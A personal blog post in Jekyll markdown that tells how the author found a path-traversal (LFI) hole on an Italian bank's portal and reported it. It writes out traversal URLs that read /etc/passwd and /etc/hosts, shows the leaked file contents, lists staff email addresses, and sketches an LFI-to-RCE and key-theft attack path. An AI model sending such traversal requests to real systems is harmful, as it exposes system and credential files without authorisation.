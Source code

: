 ```yaml
---
published: true
title: How i found an LFI vulnerability on a major banking site
layout: post
---
```

Well yes, the title is a bit clickbait but that's what exactly happened some weeks ago when i was bored on an italian banking website, let's call it MPBbanking.<br><br>
As always with "Great updates comes great responsability" for the Sysadmins that maintain such systems and that day since was their migration day <br>
from an old platform to a new one (from mpbbanking to youweb.bankmpb) i decided to explore what new features this portal has to offer... Just a few clicks and everything seems responsive and too cool to be good so<br>
i tried out the good'old LFI to be sure that everything was safe and configured correctly... Types on the web browser URL: youweb.bankmpb.it/../../../../etc/passwd <br>
<br>
# Created by anaconda<br>
<br>
Users And Groups Exposed<br>
<br>
root:x:0:0:root:/root:/bin/bash<br>
bin:x:1:1:bin:/bin:/sbin/nologin<br>
daemon:x:2:2:daemon:/sbin:/sbin/nologin<br>
adm:x:3:4:adm:/var/adm:/sbin/nologin<br>
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin<br>
sync:x:5:0:sync:/sbin:/bin/sync<br>
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown<br>
halt:x:7:0:halt:/sbin:/sbin/halt<br>
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin<br>
operator:x:11:0:operator:/root:/sbin/nologin<br>
..<br>
..<br>
.<br>
<br>
At the beginning my reaction was like.. Well that must be a honeypot because they should have a real-badass Sysadmin(s) running HIDS/DPI/Sensors/Alerts & Monitoring every breath of any system in the radius<br>
of an entire DC.<br>
But then i said well what if they aren't so badass and missed that, so i type:  youweb.bankmpb.it/../../../../etc/hosts and then .. :
<br>
##########################<br>
##     ATTENZIONE !!<br>
##<br>
## FILE GESTITO DA PUPPET<br>
## NON MODIFICARE A MANO<br>
###########################<br>
#<br>
###########<br>
# VERONA<br>
###########<br>
options timeout:1 attempts:1<br>
search servizi *.group *.group *.zserver *.nexus<br>
nameserver *.*.5.25<br>
nameserver *.*.5.26<br>
nameserver *.*.140.25<br>
#nameserver *.*.140.26<br>
<br>
<br>
127.0.0.1   localhost localhost.localdomain localhost4 localhost4.localdomain4<br>
<br>
*.*.203.12	*.*.group	*<br>
<br>
<br>
Wow... we are dealing with a DevOpser (a Master of Puppet)...and that is an LFI (*hacker-voice* "we are in", and i didn't even need my great tool inspect element to hack their JS/CSS).<br>
So i kept checking if i can find the contact of their Sysadmin to report him this vulnerability that could cost them $$ if exploited well.... *checking postfix conf for contact* :<br>
# trap decode to catch security attacks<br>
decode:		root<br>
<br>
# Person who should get root's mail<br>
#root:		marc<br>
#root:		fabian.adam@mpbcorp-address.it,frank.life@mpbcorp-address.it <br>
<br>
Well if they should get root's mail then i'll contact them about this.<br>
The day after i got this "Macro" reply from "frank" :<br>
Good afternoon Sami,<br>
Thank you for the advisory.<br>
<br>
We have forwarded our email to the right departement that will analyse the context and take remedial action<br>
<br>
<br>
Best Regards,<br>
Frank<br>
<br>
Sent from my IBM Verse  <br>
<br>
<br>
Yep probably the "right departement" is his colleague next to him and he used this "Macro".<br>
<br>
<br>
Just some hours after this email they started to fix this LFI and no feedback.<br>
<br>
The next day i sent them another email (cc'ing some other colleagues email addresses) asking if they have any running "Whitehat/Bug bounty program" because if this is how they keep things secure even a script kiddie could find some interesting stuff in their systems.<br>
<br>
12 Days later  --> Still no reply --> What a great way to give feedback to fellow Sysadmin that helped out and reported to you a vulnerability in your systems.<br>
<br>
<br>
Yep, i know that MPBCORP is big and probably no one cares because i'm the only one (or someone else found out and was trying to hack you silently) that noticed this but what if they breached some serious data from your system and custumer data was at risk? <br>
<br>
<br>
What could have happened (From less to more skilled):<br>
- "Simple" Hacker found out LFI on the site --> Sells directly this on 0day/exploit forums/deepweb makes some cash $$ even if doesn't show how to exploit the system<br>
- "Expert" Hacker silently gather all the system data for months and then plan for major data-breach & compromise of their infrastructure...Sysadmin: Come on.. LFI ain't so dangerous --> Just Google LFI to RCE  678.000 results in 0,80 seconds and after<br>
you gathered all the system information i think it's just a matter of time (wait for exploits to come out, discover your self or buy a 0day) to compromise the host. <br>
-  Script kiddie tries to hack using any tool found on the net (% of compromise very low but ain't 100% sure on your security after i saw selinux on permissive)<br>
- "Pro" Hacker plans for his malicious plan of getting on his hands their SSL private key .pem file after he got RCE (Since he is "Pro" that what he does daily..that step will take him no time) <br>
   a) "Refactor" file permissions on .pem files<br>
   b) Download the .pem <br>
   c) MITM bank customers and get all their credentials <br>
   d) Massive blackhat profits<br>
<br>
<br>
Well that's it, fix at least your critical stuff and reply to contacts/abuse fellow Sysadmins.<br>
<br>
:Wq!:wq:WqESCESCESC:wq:wq:wq! CTRL+Z^C^C^C^C^C^C^C^C^C^^C^C<br>
[1]+  Stopped 		vi<br>
<br>
Sami<br>
 








